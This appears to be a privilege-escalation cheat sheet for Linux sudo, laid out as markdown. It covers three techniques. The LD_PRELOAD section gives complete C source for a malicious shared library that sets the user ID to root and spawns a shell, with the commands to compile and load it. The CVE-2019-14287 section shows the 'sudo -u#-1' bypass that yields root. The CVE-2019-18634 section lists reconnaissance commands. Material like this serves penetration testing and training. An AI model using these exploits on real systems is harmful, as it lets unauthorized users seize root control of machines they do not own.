 ##  Sudo (LD_PRELOAD)
```shell
# 1. In command prompt type: sudo -l
# 2. From the output, notice that the LD_PRELOAD environment variable is intact.

Exploitation

# 1. Open a text editor and type:

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}

# 2. Save the file as x.c
# 3. In command prompt type:
gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles
# 4. In command prompt type:
sudo LD_PRELOAD=/tmp/x.so apache2
# 5. In command prompt type: id
```

## CVE-2019-14287
```shell
sudo -l

user ALL=(ALL, !root) /bin/bash = user cannot execute /bin/bash

sudo -u#-1 /bin/bash
whoami
root
```

## CVE-2019-18634
![image](https://github.com/user-attachments/assets/671e273c-f082-47b4-89b4-44dd7e9ceabb)

```shell
# In older machines, if pwfeedback is enable = asterisc appers when you type passwords we can use an exploit to escalate that
cat /etc/sudoers
sudo -l
sudo -V
```
